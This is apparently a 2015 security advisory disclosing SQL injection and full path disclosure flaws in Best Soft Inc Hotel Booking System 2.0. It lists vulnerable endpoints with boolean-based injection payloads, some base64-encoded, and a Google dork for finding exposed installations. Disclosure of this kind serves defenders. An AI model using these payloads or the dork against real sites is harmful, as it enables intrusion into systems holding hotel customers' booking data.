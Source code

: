 Title: Best Soft Inc Hotel Booking System 2.0 SQLi
Author: dsc
Date: 2015-8-1 11:12
Tags: advisory, exploits
Slug: best-soft-inc-hotel-booking-system-2-sqli

## Advisory

    # Exploit Title: Best Soft Inc Hotel Booking System 2.0 SQLi
    # Date: 2015-8-1
    # Author: Sander 'dsc' Ferdinand
    # Blog: https://ced.pwned.systems/advisories-best-soft-inc-hotel-booking-system-2-sqli.html
    # Vendor Homepage: http://www.bestsoftinc.com
    # Reported: 2015-8-1
    # Vendor response: none
    # Software Link: http://www.bestsoftinc.com/online-hotel-booking-system.html
    # Google Dork: inurl:/hotel-booking/cp/
    # Tested on: Linux
    # CVE : none
    
    SQLi's:
      HTTP POST to "/hotel-booking/booking-search.php"
        check_in=06%2F08%2F2014
        check_out=16%2F08%2F2014
        capacity=2 and 1=1
    
      /cp/add_edit_roomtype.php?id=1 AND 1337=1336
      /cp/customerbooking.php?client=MiBhbmQgMT0x    
           (1 and 1=2)
      /cp/viewdetails.php?booking_id=MTM0NTE4MzkwMyBhbmQgMT0y&book_type=1  
           (1 and 1=2)
    
    FPD:
      /cp/add_edit_language.php?id[]=13